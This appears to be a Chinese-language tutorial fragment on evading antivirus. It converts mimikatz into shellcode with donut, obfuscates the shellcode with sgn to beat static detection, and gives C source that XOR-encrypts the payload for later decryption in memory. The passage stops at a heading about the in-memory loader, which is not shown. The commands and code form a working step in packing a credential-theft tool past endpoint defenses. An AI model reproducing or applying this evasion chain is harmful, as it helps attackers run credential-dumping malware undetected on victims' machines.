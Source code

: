 先对mimikatz进行shellcode化

> donut.exe -i mimikatz.exe -a 2 -e 2

### shellcode过静态

> sgn.exe -i loader.bin -a 64 -c 6  -M 1 -o cc.bin

然后对sgn混淆的文件进行加密

    
    
    #include <stdio.h>  
    #include <Windows.h>  
    #include <stdlib.h>  
    #include<string.h>  
      
    int main() {  
        //write  
        FILE* file2 = NULL;  
        char path2[] = "c1.bin";  
        //read  
        fopen_s(&file2, path2, "wb");  
        FILE* file = NULL;  
        char path[] = "cc.bin";  
        fopen_s(&file, path, "rb");  
        fseek(file, 0, SEEK_END);  
        int filelen = ftell(file);  
        fseek(file, 0, SEEK_SET);  
        char* buf = (char*)VirtualAlloc(NULL, filelen, MEM_COMMIT, PAGE_EXECUTE_READWRITE);  
        fread(buf, 1, filelen, file);  
        //jiami  
        int a = 88;    unsigned char jiami;  
        unsigned char tmp;  
        int b = 0;  
        srand(a);  
        for (int i = 0; i < filelen; i++) {  
            b = rand() % 9 + 1;//1-9  
            jiami = b ^ buf[i];  
            fwrite(&jiami, sizeof(unsigned char), 1, file2);  
        }  
        fclose(file);  
        fclose(file2);  
        system("pause");  
        return 0;  
    }  
    

![]()

  

### loader加载

这里放一个简单的内存中解密加载
